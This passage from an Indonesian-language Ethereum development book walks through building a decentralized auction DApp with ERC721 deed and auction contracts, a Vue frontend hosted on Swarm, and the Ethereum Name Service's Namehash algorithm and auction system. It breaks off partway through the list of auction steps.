Aspek terakhir dari sebuah aplikasi yang dapat didesentralisasi adalah resolusi nama. Kita akan melihat lebih dekat layanan nama Ethereum nanti di bab ini; namun, sekarang mari kita gali sebuah contoh.

### Contoh DApp Dasar: Auction DApp

Di bagian ini kita akan mulai membangun contoh DApp, untuk menjelajahi berbagai alat desentralisasi. DApp kita akan mengimplementasikan lelang terdesentralisasi.

Auction DApp memungkinkan pengguna untuk mendaftarkan token **“akta” (*deed*)**, yang mewakili beberapa aset unik, seperti rumah, mobil, merek dagang, dll. Setelah token terdaftar, kepemilikan token ditransfer ke Auction DApp, memungkinkannya untuk didaftarkan untuk dijual. Auction DApp mendaftar setiap token yang terdaftar, memungkinkan pengguna lain untuk menempatkan penawaran. Selama setiap lelang, pengguna dapat bergabung dengan ruang obrolan yang dibuat khusus untuk lelang itu. Setelah lelang diselesaikan, kepemilikan token akta ditransfer ke pemenang lelang.

Proses lelang secara keseluruhan dapat dilihat pada Gambar 12-2.

Komponen utama dari Auction DApp kita adalah:
* Kontrak pintar yang mengimplementasikan token non-fungible “akta” ERC721 (`DeedRepository`)
* Kontrak pintar yang mengimplementasikan lelang (`AuctionRepository`) untuk menjual akta
* *Frontend* web menggunakan kerangka kerja JavaScript Vue/Vuetify
* Pustaka `web3.js` untuk terhubung ke rantai Ethereum (melalui MetaMask atau klien lain)
* Klien Swarm, untuk menyimpan sumber daya seperti gambar
* Klien Whisper, untuk membuat ruang obrolan per lelang untuk semua peserta

<p align="center">
  
</p>

### Auction DApp: Kontrak Pintar Backend

Contoh Auction DApp kita didukung oleh dua kontrak pintar yang perlu kita terapkan di blockchain Ethereum untuk mendukung aplikasi: `AuctionRepository` dan `DeedRepository`.

Mari kita mulai dengan melihat `DeedRepository`, yang ditunjukkan pada Contoh 12-1. Kontrak ini adalah token non-fungible yang kompatibel dengan ERC721 (lihat “ERC721: Standar Token Non-Fungible (Akta)” di halaman 247).

**Contoh 12-1. DeedRepository.sol: Token akta ERC721 untuk digunakan dalam lelang**

```solidity
pragma solidity ^0.4.17;
import "./ERC721/ERC721Token.sol";
/**
* @title Repositori Akta ERC721
* Kontrak ini berisi daftar akta yang didaftarkan oleh pengguna.
* Ini adalah demo untuk menunjukkan bagaimana token (akta) dapat dicetak dan ditambahkan
* ke repositori.
*/
contract DeedRepository is ERC721Token {
  /**
  * @dev Membuat DeedRepository dengan nama dan simbol
  * @param _name string merepresentasikan nama repositori
  * @param _symbol string merepresentasikan simbol repositori
  */
  constructor(string _name, string _symbol)
    public ERC721Token(_name, _symbol) {}
  /**
  * @dev Fungsi publik untuk mendaftarkan akta baru
  * @dev Memanggil minter ERC721Token
  * @param _tokenId uint256 merepresentasikan akta spesifik
  * @param _uri string berisi metadata/uri
  */
  function registerDeed(uint256 _tokenId, string _uri) public {
    _mint(msg.sender, _tokenId);
    addDeedMetadata(_tokenId, _uri);
    emit DeedRegistered(msg.sender, _tokenId);
  }
  /**
  * @dev Fungsi publik untuk menambahkan metadata ke sebuah akta
  * @param _tokenId merepresentasikan akta spesifik
  * @param _uri teks yang mendeskripsikan karakteristik dari akta yang diberikan
  * @return apakah metadata akta ditambahkan ke repositori
  */
  function addDeedMetadata(uint256 _tokenId, string _uri) public returns(bool){
    _setTokenURI(_tokenId, _uri);
    return true;
  }
  /**
  * @dev Event dipicu jika akta/token terdaftar
  * @param _by alamat pendaftar
  * @param _tokenId uint256 merepresentasikan akta spesifik
  */
  event DeedRegistered(address _by, uint256 _tokenId);
}
```

Seperti yang Anda lihat, kontrak `DeedRepository` adalah implementasi langsung dari token yang kompatibel dengan ERC721.

Auction DApp kita menggunakan kontrak `DeedRepository` untuk menerbitkan dan melacak token untuk setiap lelang. Lelang itu sendiri diatur oleh kontrak `AuctionRepository`. Kontrak ini terlalu panjang untuk disertakan secara penuh di sini, tetapi Contoh 12-2 menunjukkan definisi utama dari kontrak dan struktur datanya.

**Contoh 12-2. AuctionRepository.sol: Kontrak pintar utama Auction DApp**

```solidity
contract AuctionRepository {
  // Array dengan semua lelang
  Auction[] public auctions;
  // Pemetaan dari indeks lelang ke penawaran pengguna
  mapping(uint256 => Bid[]) public auctionBids;
  // Pemetaan dari pemilik ke daftar lelang yang dimiliki
  mapping(address => uint[]) public auctionOwner;
  // Struct Bid untuk menampung penawar dan jumlah
  struct Bid {
    address from;
    uint256 amount;
  }
  // Struct Auction yang menampung semua info yang diperlukan
  struct Auction {
    string name;
    uint256 blockDeadline;
    uint256 startPrice;
    string metadata;
    uint256 deedId;
    address deedRepositoryAddress;
    address owner;
    bool active;
    bool finalized;
  }
}
```

Kontrak `AuctionRepository` mengelola semua lelang dengan fungsi-fungsi berikut:

  * `getCount()`
  * `getBidsCount(uint _auctionId)`
  * `getAuctionsOf(address _owner)`
  * `getCurrentBid(uint _auctionId)`
  * `getAuctionsCountOfOwner(address _owner)`
  * `getAuctionById(uint _auctionId)`
  * `createAuction(address _deedRepositoryAddress, uint256 _deedId, string _auctionTitle, string _metadata, uint256 _startPrice, uint _blockDeadline)`
  * `approveAndTransfer(address _from, address _to, address _deedRepositoryAddress, uint256 _deedId)`
  * `cancelAuction(uint _auctionId)`
  * `finalizeAuction(uint _auctionId)`
  * `bidOnAuction(uint _auctionId)`

Anda dapat menerapkan kontrak-kontrak ini ke blockchain Ethereum pilihan Anda (mis., Ropsten) menggunakan `truffle` di repositori buku:

```bash
$ cd code/auction_dapp/backend
$ truffle init
$ truffle compile
$ truffle migrate --network ropsten
```

#### Tata kelola DApp

Jika Anda membaca kedua kontrak pintar dari Auction DApp, Anda akan melihat sesuatu yang penting: **tidak ada akun atau peran khusus yang memiliki hak istimewa atas DApp tersebut**. Setiap lelang memiliki seorang pemilik dengan beberapa kapabilitas khusus, tetapi Auction DApp itu sendiri tidak memiliki pengguna yang berhak istimewa.

Ini adalah pilihan yang disengaja untuk **mendesentralisasi tata kelola DApp** dan melepaskan kontrol apa pun setelah DApp tersebut diterapkan. Sebagai perbandingan, beberapa DApp memiliki satu atau lebih akun berhak istimewa dengan kapabilitas khusus, seperti kemampuan untuk menghentikan kontrak DApp, untuk menimpa atau mengubah konfigurasinya, atau untuk "memveto" operasi tertentu. Biasanya, fungsi-fungsi tata kelola ini diperkenalkan di DApp untuk menghindari masalah tak dikenal yang mungkin timbul karena *bug*.

Masalah tata kelola adalah masalah yang sangat sulit untuk dipecahkan, karena ia merupakan pedang bermata dua. Di satu sisi, akun berhak istimewa berbahaya; jika disusupi, mereka dapat merusak keamanan DApp. Di sisi lain, tanpa akun berhak istimewa, tidak ada opsi pemulihan jika *bug* ditemukan. Kami telah melihat kedua risiko ini terwujud dalam DApps Ethereum. Dalam kasus The DAO (“Contoh Dunia Nyata: The DAO” di halaman 176 dan Lampiran A), ada beberapa akun berhak istimewa yang disebut “kurator,” tetapi mereka sangat terbatas dalam kapabilitasnya. Akun-akun tersebut tidak dapat menimpa penarikan dana oleh penyerang DAO. Dalam kasus yang lebih baru, bursa terdesentralisasi Bancor mengalami pencurian besar-besaran karena akun manajemen berhak istimewa disusupi. Ternyata, Bancor tidak sedesentralisasi seperti yang diasumsikan pada awalnya.

Saat membangun DApp, Anda harus memutuskan apakah Anda ingin membuat kontrak pintar benar-benar independen, meluncurkannya dan kemudian tidak memiliki kontrol, atau membuat akun berhak istimewa dan menanggung risiko akun-akun tersebut disusupi. Pilihan mana pun membawa risiko, tetapi dalam jangka panjang, DApp sejati tidak dapat memiliki akses khusus untuk akun berhak istimewa—itu tidak terdesentralisasi.

### Auction DApp: Antarmuka Pengguna Frontend

Setelah kontrak Auction DApp diterapkan, Anda dapat berinteraksi dengannya menggunakan konsol JavaScript favorit Anda dan `web3.js`, atau pustaka web3 lainnya. Namun, sebagian besar pengguna akan membutuhkan antarmuka yang mudah digunakan. Antarmuka pengguna Auction DApp kami dibangun menggunakan kerangka kerja JavaScript **Vue2/Vuetify** dari Google.

Anda dapat menemukan kode antarmuka pengguna di folder `code/auction_dapp/frontend` di repositori buku. Direktori tersebut memiliki struktur dan konten berikut:

```
frontend/
|-- build
|   |-- build.js
|   |-- check-versions.js
|   |-- logo.png
|   |-- utils.js
|   |-- vue-loader.conf.js
|   |-- webpack.base.conf.js
|   |-- webpack.dev.conf.js
|   `-- webpack.prod.conf.js
|-- config
|   |-- dev.env.js
|   |-- index.js
|   `-- prod.env.js
|-- index.html
|-- package.json
|-- package-lock.json
|-- README.md
`-- src
    |-- App.vue
    |-- components
    |   |-- Auction.vue
    |   `-- Home.vue
    |-- config.js
    |-- contracts
    |   |-- AuctionRepository.json
    |   `-- DeedRepository.json
    |-- main.js
    |-- models
    |   |-- AuctionRepository.js
    |   |-- ChatRoom.js
    |   `-- DeedRepository.js
    `-- router
        `-- index.js
```

Setelah Anda menerapkan kontrak, edit konfigurasi *frontend* di `frontend/src/config.js` dan masukkan alamat kontrak `DeedRepository` dan `AuctionRepository`, seperti yang telah diterapkan. Aplikasi *frontend* juga memerlukan akses ke *node* Ethereum yang menawarkan antarmuka JSON-RPC dan WebSockets. Setelah Anda mengkonfigurasi *frontend*, luncurkan dengan server web di mesin lokal Anda:

```bash
$ npm install
$ npm run dev
```

*Frontend* Auction DApp akan diluncurkan dan dapat diakses melalui peramban web apa pun di http://localhost:8080.

Jika semuanya berjalan dengan baik, Anda akan melihat layar yang ditunjukkan pada Gambar 12-3, yang mengilustrasikan Auction DApp berjalan di peramban web.

<p align="center">
  
</p>

### Mendesentralisasi Auction DApp Lebih Lanjut

DApp kita sudah cukup terdesentralisasi, tetapi kita bisa membuatnya lebih baik.

Kontrak `AuctionRepository` beroperasi secara independen tanpa pengawasan apa pun, terbuka untuk siapa saja. Setelah diterapkan, kontrak ini tidak dapat dihentikan, begitu pula lelang apa pun tidak dapat dikendalikan. Setiap lelang memiliki ruang obrolan terpisah yang memungkinkan siapa saja untuk berkomunikasi tentang lelang tanpa sensor atau identifikasi. Berbagai aset lelang, seperti deskripsi dan gambar terkait, disimpan di Swarm, membuatnya sulit untuk disensor atau diblokir.

Siapa pun dapat berinteraksi dengan DApp dengan membuat transaksi secara manual atau dengan menjalankan *frontend* Vue di mesin lokal mereka. Kode DApp itu sendiri bersifat sumber terbuka dan dikembangkan secara kolaboratif di repositori publik.

Ada dua hal yang bisa kita lakukan untuk membuat DApp ini terdesentralisasi dan tangguh:

  * Menyimpan semua kode aplikasi di Swarm atau IPFS.
  * Mengakses DApp dengan merujuk pada sebuah nama, menggunakan Ethereum Name Service.

Kita akan menjelajahi opsi pertama di bagian berikutnya, dan kita akan menggali lebih dalam opsi kedua di “The Ethereum Name Service (ENS)”.

### Menyimpan Auction DApp di Swarm

Kita telah memperkenalkan Swarm di “Swarm” di halaman 270, sebelumnya di bab ini. Auction DApp kita sudah menggunakan Swarm untuk menyimpan gambar ikon untuk setiap lelang. Ini adalah solusi yang jauh lebih efisien daripada mencoba menyimpan data di Ethereum, yang mahal. Ini juga jauh lebih tangguh daripada jika gambar-gambar ini disimpan di layanan terpusat seperti server web atau server file.

Tetapi kita bisa melangkah lebih jauh. Kita dapat menyimpan seluruh *frontend* dari DApp itu sendiri di Swarm dan menjalankannya langsung dari *node* Swarm, alih-alih menjalankan server web.

#### Mempersiapkan Swarm

Untuk memulai, Anda perlu menginstal Swarm dan menginisialisasi *node* Swarm Anda. Swarm adalah bagian dari rangkaian alat Go-Ethereum dari Ethereum Foundation. Rujuk ke instruksi untuk menginstal Go-Ethereum di “Go-Ethereum (Geth)” di halaman 49, atau untuk menginstal rilis biner Swarm, ikuti instruksi di dokumentasi Swarm.

Setelah Anda menginstal Swarm, Anda dapat memeriksa apakah ia berfungsi dengan benar dengan menjalankannya dengan perintah `version`:

```bash
$ swarm version
Version: 0.3
Git Commit: 37685930d953bcbe023f9bc65b135a8d8b8f1488
Go Version: go1.10.1
OS: linux
```

Untuk mulai menjalankan Swarm, Anda harus memberitahunya cara terhubung ke instansi Geth, untuk mengakses API JSON-RPC. Mulailah dengan mengikuti instruksi di panduan Memulai.

Saat Anda memulai Swarm, Anda akan melihat sesuatu seperti ini:

```
Maximum peer count
ETH=25 LES=0 total=25
Starting peer-to-peer node
 instance=swarm/v0.3.1-225171a4/linux...
connecting to ENS API
 url=http://127.0.0.1:8545
swarm[5955]: [189B blob data]
Starting P2P networking
 UDP listener up
 self=enode://f50c8e19ff841bcd5ce7d2d...
Updated bzz local addr
 oaddr=9c40be8b83e648d50f40ad3... uaddr=e
Starting Swarm service
 9c40be8b hive starting
 detected an existing store. trying to load peers
 hive 9c40be8b: peers loaded
Swarm network started on bzz address: 9c40be8b83e648d50f40ad3d35f...
Pss started
Streamer started
IPC endpoint opened
 url=/home/ubuntu/.ethereum/bzzd.ipc
RLPx listener up
 self=enode://f50c8e19ff841bcd5ce7d2d...
```

Anda dapat mengkonfirmasi bahwa *node* Swarm Anda berjalan dengan benar dengan terhubung ke antarmuka web gerbang Swarm lokal: http://localhost:8500.

Anda akan melihat layar seperti yang ada di Gambar 12-4 dan dapat menanyakan hash Swarm atau nama ENS apa pun.

<p align="center">
  
</p>

### Mengunggah File ke Swarm

Setelah *node* dan gerbang Swarm lokal Anda berjalan, Anda dapat mengunggah ke Swarm dan file-file tersebut akan dapat diakses di *node* Swarm mana pun, hanya dengan merujuk pada hash file.

Mari kita uji ini dengan mengunggah sebuah file:

```bash
$ swarm up code/auction_dapp/README.md
ec13042c83ffc2fb5cb0aa8c53f770d36c9b3b35d0468a0c0a77c97016bb8d7c
```

Swarm telah mengunggah file `README.md` dan mengembalikan sebuah hash yang dapat Anda gunakan untuk mengakses file dari *node* Swarm mana pun. Misalnya, Anda bisa menggunakan gerbang Swarm publik.

Meskipun mengunggah satu file relatif mudah, mengunggah seluruh *frontend* DApp sedikit lebih kompleks. Hal ini karena berbagai sumber daya DApp (HTML, CSS, JavaScript, pustaka, dll.) memiliki referensi yang tertanam satu sama lain. Biasanya, server web menerjemahkan URL ke file lokal dan menyajikan sumber daya yang benar. Kita dapat mencapai hal yang sama untuk Swarm dengan mengemas DApp kita.

Di Auction DApp, ada skrip untuk mengemas semua sumber daya:

```bash
$ cd code/auction_dapp/frontend
$ npm run build

> frontend@1.0.0 build /home/aantonop/Dev/ethereumbook/code/auction_dapp/frontend
> node build/build.js

Hash: 9ee134d8db3c44dd574d
Version: webpack 3.10.0
Time: 25665ms
                                                  Asset       Size
    static/js/vendor.77913f316aaf102cec11.js    1.25 MB
       static/js/app.5396ead17892922422d4.js     502 kB
  static/js/manifest.87447dd4f5e60a5f9652.js    1.54 kB
static/css/app.0e50d6a1d2b1ed4daa03d306ced779cc.css    1.13 kB
...
index.html    1.15 kB

  Build complete.
```

Hasil dari perintah ini akan menjadi direktori baru, `code/auction_dapp/frontend/dist`, yang berisi seluruh *frontend* Auction DApp, yang dikemas bersama:

```
dist/
|-- index.html
`-- static
    |-- css
    |   |-- app.0e50d6a1d2b1ed4daa03d306ced779cc.css
    |   `-- app.0e50d6a1d2b1ed4daa03d306ced779cc.css.map
    `-- js
        |-- app.5396ead17892922422d4.js
        |-- app.5396ead17892922422d4.js.map
        |-- manifest.87447dd4f5e60a5f9652.js
        |-- manifest.87447dd4f5e60a5f9652.js.map
        |-- vendor.77913f316aaf102cec11.js
        `-- vendor.77913f316aaf102cec11.js.map
```

Sekarang Anda dapat mengunggah seluruh DApp ke Swarm, dengan menggunakan perintah `up` dan opsi `--recursive`. Di sini, kita juga memberitahu Swarm bahwa `index.html` adalah `defaultpath` untuk memuat DApp ini:

```bash
$ swarm --bzzapi http://localhost:8500 --recursive \
--defaultpath dist/index.html up dist/
ab164cf37dc10647e43a233486cdeffa8334b026e32a480dd9cbd020c12d4581
```

Sekarang, seluruh Auction DApp kita di-hosting di Swarm dan dapat diakses dengan URL Swarm:
`bzz://ab164cf37dc10647e43a233486cdeffa8334b026e32a480dd9cbd020c12d4581`

Kita telah membuat beberapa kemajuan dalam mendesentralisasi DApp kita, tetapi kita membuatnya lebih sulit untuk digunakan. URL seperti itu jauh kurang ramah pengguna daripada nama yang bagus seperti `auction_dapp.com`. Apakah kita terpaksa mengorbankan kegunaan untuk mendapatkan desentralisasi?

Tidak harus. Di bagian berikutnya kita akan memeriksa layanan nama Ethereum, yang memungkinkan kita menggunakan nama yang mudah dibaca tetapi tetap mempertahankan sifat terdesentralisasi dari aplikasi kita.

### Ethereum Name Service (ENS)

Anda dapat merancang kontrak pintar terbaik di dunia, tetapi jika Anda tidak menyediakan antarmuka yang baik untuk pengguna, mereka не akan dapat mengaksesnya.

Di internet tradisional, **Domain Name System (DNS)** memungkinkan kita menggunakan nama yang dapat dibaca manusia di peramban sambil menyelesaikan nama-nama tersebut ke alamat IP atau pengenal lain di belakang layar. Di blockchain Ethereum, **Ethereum Naming System (ENS)** memecahkan masalah yang sama, tetapi dengan cara yang terdesentralisasi.

Misalnya, alamat donasi Ethereum Foundation adalah `0xfB6916095ca1df60bB79Ce92cE3Ea74c37c5d359`; di dalam dompet yang mendukung ENS, alamat itu cukup ditulis `ethereum.eth`.

ENS lebih dari sekadar kontrak pintar; ia adalah DApp fundamental itu sendiri, yang menawarkan layanan nama terdesentralisasi. Lebih jauh lagi, ENS didukung oleh sejumlah DApp untuk pendaftaran, manajemen, dan lelang nama terdaftar. ENS menunjukkan bagaimana DApp dapat bekerja sama: ia adalah DApp yang dibangun untuk melayani DApp lain, didukung oleh ekosistem DApp, tertanam di DApp lain, dan seterusnya.

Di bagian ini kita akan melihat cara kerja ENS. Kami akan mendemonstrasikan bagaimana Anda dapat menyiapkan nama Anda sendiri dan menautkannya ke dompet atau alamat Ethereum, bagaimana Anda dapat menyematkan ENS di DApp lain, dan bagaimana Anda dapat menggunakan ENS untuk menamai sumber daya DApp Anda agar lebih mudah digunakan.

#### Sejarah Layanan Nama Ethereum

Pendaftaran nama adalah aplikasi non-mata uang pertama dari blockchain, yang dipelopori oleh Namecoin. White Paper Ethereum memberikan sistem pendaftaran mirip Namecoin dua baris sebagai salah satu contoh aplikasinya.

Rilis awal Geth dan klien Ethereum C++ memiliki kontrak `namereg` bawaan (tidak digunakan lagi), dan banyak proposal serta ERC untuk layanan nama dibuat, tetapi baru setelah Nick Johnson mulai bekerja untuk Ethereum Foundation pada tahun 2016 dan mengambil proyek di bawah sayapnya, pekerjaan serius pada registrar dimulai.

ENS diluncurkan pada Hari Star Wars, 4 Mei 2017 (setelah upaya yang gagal untuk meluncurkannya pada Hari Pi, 15 Maret).

#### Spesifikasi ENS

ENS ditentukan terutama dalam tiga Ethereum Improvement Proposals: EIP-137, yang menentukan fungsi dasar ENS; EIP-162, yang menjelaskan sistem lelang untuk akar `.eth`; dan EIP-181, yang menentukan pendaftaran balik alamat.

ENS mengikuti filosofi desain “sandwich”: lapisan yang sangat sederhana di bagian bawah, diikuti oleh lapisan kode yang lebih kompleks tetapi dapat diganti, dengan lapisan atas yang sangat sederhana yang menyimpan semua dana di akun terpisah.

#### Lapisan Bawah: Pemilik Nama dan Resolver

ENS beroperasi pada “**node**” alih-alih nama yang dapat dibaca manusia: nama yang dapat dibaca manusia diubah menjadi sebuah *node* menggunakan algoritma “**Namehash**”.

Lapisan dasar ENS adalah kontrak yang cerdas dan sederhana (kurang dari 50 baris kode) yang didefinisikan oleh EIP-137 yang hanya memungkinkan pemilik *node* untuk mengatur informasi tentang nama mereka dan untuk membuat subnode (setara ENS dengan subdomain DNS).

Satu-satunya fungsi di lapisan dasar adalah yang memungkinkan pemilik *node* untuk mengatur informasi tentang *node* mereka sendiri (khususnya *resolver*, *time to live*, atau mentransfer kepemilikan) dan untuk membuat pemilik subnode baru.

##### Algoritma Namehash

Namehash adalah algoritma rekursif yang dapat mengubah nama apa pun menjadi hash yang mengidentifikasi nama tersebut.

“Rekursif” berarti kita memecahkan masalah dengan memecahkan sub-masalah yang merupakan masalah yang lebih kecil dari jenis yang sama, dan kemudian menggunakan solusi untuk sub-masalah untuk memecahkan masalah asli.

Namehash secara rekursif melakukan hash pada komponen nama, menghasilkan string unik dengan panjang tetap (atau “*node*”) untuk setiap domain input yang valid. Misalnya, *node* Namehash dari `subdomain.example.eth` adalah `keccak('<example.eth>' node) + keccak('<subdomain>')`. Sub-masalah yang harus kita selesaikan adalah menghitung *node* untuk `example.eth`, yaitu `keccak('<.eth>' node) + keccak('<example>')`. Untuk memulai, kita harus menghitung *node* untuk `eth`, yaitu `keccak(<root node>) + keccak('<eth>')`.

*Root node* adalah apa yang kita sebut “kasus dasar” dari rekursi kita, dan kita jelas tidak bisa mendefinisikannya secara rekursif, atau algoritma tidak akan pernah berakhir\! *Root node* didefinisikan sebagai `0x0000000000000000000000000000000000000000000000000000000000000000` (32 byte nol).

Menyatukan semua ini, *node* dari `subdomain.example.eth` oleh karena itu adalah `keccak(keccak(keccak(0x0...0 + keccak('eth')) + keccak('example')) + keccak('subdomain'))`.

Secara umum, kita dapat mendefinisikan fungsi Namehash sebagai berikut (kasus dasar untuk *root node*, atau nama kosong, diikuti oleh langkah rekursif):
`namehash([]) = 0x0000000000000000000000000000000000000000000000000000000000000000`
`namehash([label, ...]) = keccak256(namehash(...) + keccak256(label))`

Di Python ini menjadi:

```python
def namehash(name):
  if name == '':
    return '\0' * 32
  else:
    label, _, remainder = name.partition('.')
    return sha3(namehash(remainder) + sha3(label))
```

Jadi, `mastering-ethereum.eth` akan diproses sebagai berikut:
`namehash('mastering-ethereum.eth')`
⇒ `sha3(namehash('eth') + sha3('mastering-ethereum'))`
⇒ `sha3(sha3(namehash('') + sha3('eth')) + sha3('mastering-ethereum'))`
⇒ `sha3(sha3(('\0' * 32) + sha3('eth')) + sha3('mastering-ethereum'))`

Tentu saja, subdomain sendiri bisa memiliki subdomain: bisa ada `sub.subdomain.example.eth` setelah `subdomain.example.eth`, lalu `sub.sub.subdomain.example.eth`, dan seterusnya. Untuk menghindari komputasi ulang yang mahal, karena Namehash hanya bergantung pada nama itu sendiri, *node* untuk nama tertentu dapat dihitung sebelumnya dan dimasukkan ke dalam kontrak, menghilangkan kebutuhan untuk manipulasi string dan memungkinkan pencarian langsung catatan ENS terlepas dari jumlah komponen dalam nama mentah.

##### Cara memilih nama yang valid

Nama terdiri dari serangkaian label yang dipisahkan titik. Meskipun huruf besar dan kecil diizinkan, semua label harus mengikuti proses normalisasi UTS \#46 yang mengubah huruf besar menjadi huruf kecil sebelum melakukan hash, jadi nama dengan huruf besar-kecil yang berbeda tetapi ejaan yang identik akan berakhir dengan Namehash yang sama.

Anda bisa menggunakan label dan domain dengan panjang berapa pun, tetapi demi kompatibilitas dengan DNS lama, aturan berikut direkomendasikan:

  * Label tidak boleh lebih dari 64 karakter.
  * Nama ENS lengkap tidak boleh lebih dari 255 karakter.
  * Label tidak boleh dimulai atau diakhiri dengan tanda hubung, atau dimulai dengan angka.

##### Kepemilikan *root node*

Salah satu hasil dari sistem hierarkis ini adalah ia bergantung pada pemilik *root node*, yang dapat membuat domain tingkat atas (TLD).

Meskipun tujuan akhirnya adalah untuk mengadopsi proses pengambilan keputusan terdesentralisasi untuk TLD baru, pada saat penulisan, *root node* dikendalikan oleh multisig 4-dari-7, yang dipegang oleh orang-orang di berbagai negara (dibangun sebagai cerminan dari 7 pemegang kunci sistem DNS). Akibatnya, mayoritas setidaknya 4 dari 7 pemegang kunci diperlukan untuk melakukan perubahan apa pun.

Saat ini tujuan dan sasaran dari para pemegang kunci ini adalah untuk bekerja dalam konsensus dengan komunitas untuk:

  * Memigrasi dan meningkatkan kepemilikan sementara TLD `.eth` ke kontrak yang lebih permanen setelah sistem dievaluasi.
  * Mengizinkan penambahan TLD baru, jika komunitas setuju bahwa mereka dibutuhkan.
  * Memigrasi kepemilikan multisig akar ke kontrak yang lebih terdesentralisasi, ketika sistem semacam itu disetujui, diuji, dan diimplementasikan.
  * Berfungsi sebagai jalan terakhir untuk menangani *bug* atau kerentanan apa pun di registri tingkat atas.

##### Resolver

Kontrak ENS dasar не dapat menambahkan metadata ke nama; itu adalah tugas dari apa yang disebut “**kontrak resolver**.” Ini adalah kontrak buatan pengguna yang dapat menjawab pertanyaan tentang nama, seperti alamat Swarm apa yang terkait dengan aplikasi, alamat apa yang menerima pembayaran ke aplikasi (dalam ether atau token), atau apa hash dari aplikasi (untuk memverifikasi integritasnya).

#### Lapisan Tengah: Node .eth

Pada saat penulisan, satu-satunya domain tingkat atas yang dapat didaftarkan secara unik dalam kontrak pintar adalah `.eth`.

> Sedang ada pekerjaan untuk memungkinkan pemilik domain DNS tradisional mengklaim kepemilikan ENS. Meskipun secara teori ini bisa berhasil untuk `.com`, satu-satunya domain yang implementasinya telah dilakukan sejauh ini adalah `.xyz`, dan hanya di *testnet* Ropsten.

Domain `.eth` didistribusikan melalui sistem lelang. Tidak ada daftar yang dicadangkan atau prioritas, dan satu-satunya cara untuk mendapatkan nama adalah dengan menggunakan sistem tersebut. Sistem lelang adalah kode yang kompleks (lebih dari 500 baris); sebagian besar upaya pengembangan awal (dan *bug*\!) di ENS ada di bagian sistem ini. Namun, ini juga dapat diganti dan ditingkatkan, tanpa risiko terhadap dana—lebih lanjut tentang itu nanti.

##### Lelang Vickrey

Nama didistribusikan melalui lelang Vickrey yang dimodifikasi. Dalam lelang Vickrey tradisional, setiap penawar mengirimkan tawaran tertutup, dan semuanya diungkapkan secara bersamaan, di mana penawar tertinggi memenangkan lelang tetapi hanya membayar tawaran tertinggi kedua. Oleh karena itu, penawar terinsentif untuk tidak menawar lebih rendah dari nilai sebenarnya dari nama bagi mereka, karena menawar nilai sebenarnya meningkatkan peluang mereka untuk menang tetapi tidak mempengaruhi harga yang pada akhirnya akan mereka bayar.

Di blockchain, beberapa perubahan diperlukan:

  * Untuk memastikan penawar tidak mengirimkan tawaran yang tidak ingin mereka bayar, mereka harus **mengunci nilai yang sama atau lebih tinggi dari tawaran mereka** sebelumnya, untuk menjamin tawaran itu valid.
  * Karena Anda tidak dapat menyembunyikan rahasia di blockchain, penawar harus melakukan **setidaknya dua transaksi (proses *commit–reveal*)**, untuk menyembunyikan nilai asli dan nama yang mereka tawar.
  * Karena Anda tidak dapat mengungkapkan semua tawaran secara bersamaan dalam sistem terdesentralisasi, **penawar harus mengungkapkan tawaran mereka sendiri**; jika tidak, mereka akan kehilangan dana yang terkunci. Tanpa penyitaan ini, seseorang dapat membuat banyak tawaran dan memilih untuk mengungkapkan hanya satu atau dua, mengubah lelang tawaran tertutup menjadi lelang harga naik tradisional.

Oleh karena itu, lelang adalah proses empat langkah:

1.  **Mulai lelang.** Ini diperlukan untuk menyiarkan niat untuk mendaftarkan nama. Ini menciptakan semua tenggat waktu lelang. Nama-nama di-hash, sehingga hanya mereka yang memiliki nama di kamus mereka yang akan tahu lelang mana yang dibuka. Ini memungkinkan beberapa privasi, yang berguna jika Anda membuat proyek baru dan tidak ingin berbagi detail tentangnya. Anda dapat membuka beberapa lelang dummy pada saat yang sama, jadi jika seseorang mengikuti Anda, mereka tidak bisa begitu saja menawar di semua lelang yang Anda buka.
2.  **Buat tawaran tertutup.** Anda harus melakukan ini sebelum batas waktu penawaran, dengan mengikat sejumlah ether ke hash dari pesan rahasia (yang berisi, antara lain, hash dari nama, jumlah tawaran sebenarnya, dan *salt*). Anda dapat mengunci lebih banyak ether daripada yang sebenarnya Anda tawar untuk menutupi valuasi Anda yang sebenarnya.
3.  **Ungkapkan tawaran.** Selama periode pengungkapan, Anda harus membuat transaksi yang mengungkapkan tawaran, yang kemudian akan menghitung tawaran tertinggi dan tawaran tertinggi kedua dan mengirim ether kembali ke penawar yang tidak berhasil. Setiap kali tawaran diungkapkan, pemenang saat ini dihitung ulang; oleh karena itu, yang terakhir ditetapkan sebelum batas waktu pengungkapan berakhir menjadi pemenang keseluruhan.
